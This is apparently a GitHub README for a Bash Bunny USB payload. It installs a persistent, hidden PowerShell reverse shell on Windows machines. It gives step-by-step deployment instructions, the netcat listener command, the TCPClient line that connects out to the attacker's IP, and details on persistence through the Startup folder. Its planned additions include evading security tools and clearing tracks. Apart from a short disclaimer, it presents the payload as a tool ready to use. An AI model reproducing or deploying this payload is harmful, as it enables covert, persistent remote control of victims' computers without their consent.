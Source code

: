 # Persistent Reverse Shell via Bash Bunny

**Author:** CyberJulian  
**Category:** Network  
**Target OS:** Windows 10, 11  
**Attack Modes:** HID, STORAGE 

---

## ⚠️ Disclaimer  
This project is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is strictly prohibited.

---

## Overview  
This **Bash Bunny payload** deploys a **persistent reverse shell** on a Windows target, enabling remote access via **Netcat**. The script runs on system startup, ensuring continuous reconnection even after reboots.

## Features  
✅ **Persistent Connection** – Automatically reconnects on system startup.  
✅ **Stealthy Execution** – Runs in the background from a hidden directory.  
✅ **Command Execution** – Executes shell commands remotely and returns output.  
✅ **Automatic Deployment** – Installs via Bash Bunny keystroke injection.  

---

## How It Works

### **1️⃣ Execution via Bash Bunny**  
- The Bash Bunny injects keystrokes to **run a PowerShell command** that:  
  - Copies the reverse shell script to a **hidden directory** (`%APPDATA%\HiddenFolder`).  
  - Creates a **batch script** in the Windows **Startup folder** for persistence.  

### **2️⃣ Persistent Connection Attempt**  
- The reverse shell script **loops continuously**, trying to connect to the **designated listener IP and port**.  
- If the connection is lost, the script **retries every 5 seconds** until successful.  
- If the system reboots, the **Startup script automatically restarts the process**.

### **3️⃣ Remote Command Execution**  
- Once connected, the target device **listens for commands** from the remote listener.
- The session remains active until manually terminated.
  - To **fully terminate the script**, type "exit". This will **completely stop execution** and close the connection.
   - You'd have to wait for the computer to reboot in order to connect once more
  - To stop the connection while **keeping the script running on loop**, enter Control+C

---

## Setup Instructions

### **🔹 Listener (Attacker Machine)**
1. Start a Netcat listener on your machine:
   ```bash
   nc -lv 4444
   ```
   - Replace `4444` with your desired port.

### **🔹 Deployment via Bash Bunny**
1. **Edit reverse.ps1** to set the correct **listener IP address**:
- Open reverse.ps1 and locate this line:
  ```
  $client = New-Object System.Net.Sockets.TCPClient("192.168.1.0", 4444)
  ```  
  - Replace 192.168.1.0 with your listener’s IP address.  
  - Replace 4444 with your listener’s port, if necessary. 
2. **Copy the payload files** to your Bash Bunny:
   ```
   /payloads/switch1/
   ├── payload.txt
   ├── setup_reverse_shell.ps1
   ├── reverse.ps1
   ```
3. **Insert the Bash Bunny into the target Windows machine.**
4. The payload will:
   - Copy the reverse shell script to a hidden directory.
   - Create a **Startup entry** to ensure persistence.
   - Initiate the first connection attempt.

---

## Payload Breakdown

### **`payload.txt` (Main Bash Bunny Script)**
- Configures the Bash Bunny as a **HID & Storage device**.
- Runs the **PowerShell setup script** from the Bash Bunny storage.
- Executes the **reverse shell script** from its new hidden location.

### **`setup_reverse_shell.ps1` (Persistence Setup)**
- Copies `reverse.ps1` to a hidden directory.
- Creates a **Startup script** in the Windows **Startup folder**.
- Ensures the reverse shell script runs on every system boot.

### **`reverse.ps1` (Reverse Shell Loop)**
- **Attempts to connect** to the attacker's listener IP & port.
- **Executes received commands** and returns output.
- **Loops indefinitely**, retrying if disconnected.

---

## Example Output  
On the listener machine (`nc -lv 4444`):  
```
Reverse shell connection established.
whoami
victim-pc\user
```

---

### 🎯 **Future Enhancements**
- Force target device to **connect to desired network** if applicable.
- Implement **multi-platform support** (Mac & Linux).
- Improve **stealth** to bypass security tools & clean tracks.
- Add **encryption** for secure communication.

---

## 🏆 Credits  
Created by **CyberJulian**
